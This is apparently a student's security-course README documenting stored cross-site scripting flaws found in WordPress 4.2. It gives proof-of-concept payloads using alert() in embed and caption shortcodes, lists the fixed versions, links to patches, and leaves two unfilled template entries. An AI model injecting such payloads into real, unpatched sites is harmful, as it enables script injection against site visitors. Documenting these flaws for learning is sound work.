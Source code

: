 # Project 7 - WordPress Pentesting

Time spent: 6 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: ![](youtube_xss.gif)
  - [x] Steps to recreate:
        Create a new post or page with the following in the content: 
        '[embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]'
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
1. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
  - [x] GIF Walkthrough: ![](shortcode_xss.gif)
  - [x] Steps to recreate:
        Create a new post or page with the following in the content:
        'TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>'
  - [x] Affected source code:
    - [Link 2](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: ![](authenticated_xss.gif)
  - [x] Steps to recreate: 
        Create a new post or page with the following in the content:
        '<a href="[caption code=">]</a><a title=" onmouseover=alert('hacked')  ">Click me</a>'
  - [ ] Affected source code:
    - [Link 3](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Many vulnerabilites shown with wpscan (using the various links) did not lead to repeatable results.

## License

    Copyright 2018 Britton Lee

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
